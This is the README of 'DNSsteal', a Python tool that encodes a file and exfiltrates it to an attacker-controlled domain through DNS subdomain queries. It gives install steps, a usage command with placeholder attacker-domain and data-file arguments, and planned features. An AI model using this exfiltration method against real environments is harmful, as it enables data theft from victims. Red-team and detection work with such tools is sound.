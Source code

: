 ![logo](logo.jpg)

**DNSsteal** -- An automatic DNS exfiltration tool

# Purpose
Attacker's frequently use expected protocols to exfiltrate information out of victim environments. DNS can be particularly effective for exfiltration given the protocol's ubiquitous use in practically every environment. 

This tool takes an input file, encodes the data, and exfiltrates the data to an attacker-controlled domain using subdomains.

# Requirements
Run the command:
```python
pip3 install -r requirements.txt
# installs argparse
```
The tool uses `base64`, `subprocess`, `os`, and `datetime` which are already part of the default Python3 installation.

This tool was written in Python3. <br>
This tool was tested on both Windows and Unix.

# Usage
Run the tool:
```python
python3 client.py -d <attacker domain> -f <data file>
```
The tool accepts the following arguments:
```python
-d, --domain       Attacker-controlled domain    # required
-f, --file         Target data file to exfiltrate #required
-s, --server       IP address of DNS server to query #optional
-h, --help         Show help menu

```


# Future Work
* Introduce sequencing mechanism for DNS packets
* Intercept std:out and std:err from subprocess commands